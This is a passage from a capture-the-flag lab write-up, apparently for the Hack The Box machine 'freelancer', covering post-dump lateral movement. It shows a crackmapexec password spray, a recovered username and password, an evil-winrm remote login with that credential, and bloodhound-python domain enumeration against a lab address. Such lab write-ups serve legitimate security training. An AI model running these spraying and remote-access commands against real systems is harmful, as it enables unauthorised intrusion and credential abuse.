- From the dumped passwords we can do a password spray:

![image40](../resources/1a5661abc37340b080ae86bdba1dafc1.png)

- Put all the users in a file - users:

```bash
crackmapexec smb freelancer.htb -u users -p pass

```
**lorra199 : PWN3D#l0rr@Armessa199**

```bash
evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'

```

![image41](../resources/adb70920b6e24683bd1085072f14d570.png)

- Run bloodhound remotely:

```bash
bloodhound-python -c all -u lorra199 -p 'PWN3D#l0rr@Armessa199' -ns 10.129.213.81 -d freelancer.htb

```
